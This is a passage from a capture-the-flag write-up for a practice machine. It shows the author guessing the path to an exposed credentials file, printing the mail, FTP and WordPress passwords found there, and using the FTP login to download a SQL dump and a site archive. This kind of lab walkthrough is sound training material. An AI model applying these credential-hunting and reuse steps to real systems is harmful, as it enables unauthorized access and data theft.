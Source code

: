 By trying different variations and wordings for password files, I found http://10.10.10.187/admin-dir/credentials.txt:
```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

### 4. Investigate FTP
On of the credentials is listed as for FTP, so it can be used to gain access and recieve some files.
```bash
kali@kali:~$ ftp -v 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
There are only 2 files present on the FTP server, so get them both.
```
ftp> get dump.sql
local: dump.sql remote: dump.sql
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for dump.sql (3405 bytes).
226 Transfer complete.
3405 bytes received in 0.00 secs (15.9179 MB/s)
ftp> get html.tar.gz
local: html.tar.gz remote: html.tar.gz
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for html.tar.gz (5270987 bytes).
226 Transfer complete.
5270987 bytes received in 14.06 secs (366.0902 kB/s)
ftp> bye
221 Goodbye.
```
